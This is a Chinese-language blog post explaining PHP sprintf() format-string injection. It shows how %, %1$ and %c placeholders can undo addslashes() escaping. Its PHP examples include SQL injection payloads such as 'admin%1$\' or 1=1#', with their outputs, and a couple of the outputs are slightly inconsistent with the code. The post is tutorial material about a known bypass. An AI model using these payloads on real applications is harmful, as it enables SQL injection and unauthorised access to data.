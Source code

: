 ```yaml
---
layout: post
title: sprintf()格式化字符串注入
data: 2019-11-23
categories: Notes
tags: 
 - Injection
description:
excerpt_separator: ""
---
```


# sprintf()函数

和其它语言的格式化字符串函数类似，sprintf()的语法为：

```
sprintf ( string $format [, mixed $... ] ) : string
```

例如：

```php
<?php
    echo sprintf("select * from user where username='%s'\n", "admin");
?>
```

运行结果：

````
select * from user where username=admin
````

# 漏洞原理

在PHP的底层代码中，会对`$format`中`%`符号后的第一个字符做一个switch判断，以实现格式化输入功能。但这个判断仅15个case，换言之在`%`符号之后且超出了判断范围的字符都会被“吃掉”。

这样的话，如果我们上传的Payload被addslashes()处理过，就可以利用这个特性使被转义的字符逃逸。

# 利用方式

## 使用%

直接在危险字符前加入`%`即可。

不过需要主要的是如果当前字符串中`%`符号的数目大于sprintf()函数实际提供的参数，就会引起报错：

{% highlight php linenos %}
<?php
    echo sprintf("select * from user where username='admin%\' or 1=1#' and password='%s'\n" , "pass");
?>
{% endhighlight %}

运行结果：

```
PHP Warning:  sprintf(): Too few arguments in /home/glyuan/foo.php on line 2
```

## 使用%1$

在占位符中，`%n$s`可以选择特定位置的参数：

```php
<?php
    echo sprintf("select * from user where username='%2\$s' and password='%1\$s'\n", "pass", "admin");
?>
```

运行结果：

```
select * from user where username='admin' and password='pass'
```

所以用`%1$`代替`%`可以规避之前的报错：

{% highlight php linenos %}
<?php
    echo sprintf("select * from user where username='admin%1\$\' or 1=1#' and password='%s'\n" , "pass");
?>
{% endhighlight %}

运行结果：

```
select * from user where username='admin' Or 1=1#' and password='pass'
```

## 使用%c

`%c`是单个字符的占位符，接受一个整数，并根据ASCII码转化为字符，可以利用这个特性传入单引号等危险字符，以绕过过滤：

```php
<?php
    $username = "admin%1\$c or 1=1#";
	$password = "39";
	$sql = "select * from user where username='$username' and password='%s'\n";
	echo sprintf($sql, $password);
?>
```

运行结果：

```
select * from user where username='admin' or 1=1#' and password='39'
```
